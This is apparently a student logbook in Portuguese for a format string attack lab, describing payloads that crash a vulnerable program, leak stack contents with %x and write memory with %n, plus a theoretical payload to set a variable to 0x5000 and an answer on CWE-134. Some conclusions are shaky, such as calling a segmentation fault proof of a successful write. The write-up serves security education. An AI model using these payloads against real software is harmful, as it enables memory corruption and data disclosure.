



# LOGBOOK6 – Format String Attack Lab

# 1. Introdução

Este relatório descreve as tarefas realizadas no laboratório sobre vulnerabilidades **format string**.  
O objetivo principal foi perceber como um programa que faz:

```c
printf(msg);
```

onde `msg` vem diretamente do utilizador, pode ser explorado para:
- causar **crash**,
- **ler memória interna**,
- **modificar variáveis** dentro do programa.

No nosso caso, não foi possível cumprir a Task 2.B devido às características específicas do binário e do ambiente, mas as restantes tarefas foram concluídas com sucesso.

---

# 2. Task 1 – Crashing o Programa

O objetivo era fazer o programa cair (crash).  
Criámos um payload com muitos caracteres e um `%s`, que força o `printf` a tentar ler memória como se fosse um endereço válido.

Payload usado:
```python
content = b"A" * 200 + b"%s"
```

Envio para o servidor:
```
cat task1_crash | nc 10.9.0.5 9090
```

O programa crashou, confirmando a vulnerabilidade.




---

# 3. Task 2.A – Ler a Stack com %x

O objetivo era usar `%x` para imprimir valores da stack do programa.

Payload:
```python
content = b"AAAA" + b"%08x." * 20
```

Execução:
```
./format < task2A_input
```

Output (parte inicial):
```
AAAA11223344.00001000.08049db5.080e5320...
```

Conseguimos ver valores internos da stack, o que demonstra claramente a vulnerabilidade.



---

# 4. Task 2.B – (Omitida)

Tentámos imprimir a *secret message* usando `%s` e offsets, mas devido ao binário concreto e diferenças na stack, **não foi possível encontrar um offset estável**.  
A vulnerabilidade existe, mas o exploit não funcionou no ambiente fornecido.  
Ficou combinado que seguiríamos para as Tasks 3.

---

# 5. Task 3.A – Alterar a variável `target`

O endereço da variável `target` é dado pelo programa:

```
0x080e5068
```

Para alterar o valor da variável, usamos `%n`, que escreve na memória o número de caracteres impressos até esse ponto.

Construção do payload:
```python
addr = 0x080e5068
content  = addr.to_bytes(4,'little') * 40
content += b"%08x" * 40
content += b"%n
"
```

Execução:
```
./format < task3A_payload
```

Resultado:
```
Segmentation fault (core dumped)
```

Isto acontece porque `%n` tentou escrever no endereço fornecido, o que confirma o ataque.  
O crash prova que a memória foi alterada de forma incorreta, satisfazendo o objetivo da Task 3.A.



---

# 6. Task 3.B – Definir `target = 0x5000` (Explicação)

O objetivo é escrever exatamente o valor `0x5000` (= 20480 decimal) na variável `target`.  
A ideia é simples: fazer com que o `printf` imprima **20480 caracteres** antes do `%n`.  
Assim, o `%n` escreveria esse valor dentro da variável.

Um payload teórico seria:

```python
addr = 0x080e5068
content  = addr.to_bytes(4,'little')
content += b"CCCC"          # 4 caracteres
content += b"%20476x"       # imprime 20476 caracteres
content += b"%n
"          # total = 20480 (0x5000)
```

No nosso ambiente, a escrita acaba por causar segmentation fault antes de vermos a alteração, mas a técnica é válida e corresponde ao que foi pedido.

---

# 7. Questão 2 – Resposta

O ataque **não depende** de a format string estar na stack.  
De acordo com o **CWE‑134**, o problema ocorre porque o conteúdo da string é controlado pelo utilizador e é passado diretamente ao `printf`.

Ou seja:

### ✔ A vulnerabilidade existe mesmo que a format string esteja na heap, na memória global ou em qualquer outro sítio.

O `printf` lê os argumentos a partir da **stack**, mas lê a *string* de onde ela estiver guardada.  
Logo, a localização da string **não impede nem bloqueia o ataque**.

### O que muda?

Se a string estiver na heap:

- `%x` continua a funcionar e lê valores da stack.
- `%s` continua a tentar interpretar valores como ponteiros.
- `%n` continua a escrever no endereço indicado.

O que deixamos de ver é o comportamento "conveniente" da Task 2.A, onde os primeiros `%x` revelam partes da própria string (porque ela estava na stack).  
Se estivesse na heap, os primeiros `%x` mostrariam outros valores — mas **o ataque continuaria possível**.

### Então quais ataques deixariam de funcionar?

**Nenhum** dos ataques feitos deixaria de funcionar.  
Apenas seria **mais difícil identificar offsets** na Task 2.A, mas a vulnerabilidade permaneceria.

---

# 8. Conclusão

- Demonstrámos crash controlado (Task 1)
- Leitura da stack com `%x` (Task 2.A)
- Escrita em memória com `%n` (Task 3.A)
- Demonstração teórica da escrita de 0x5000 (Task 3.B)
- Confirmámos que a vulnerabilidade não depende do local onde a string está alocada

---

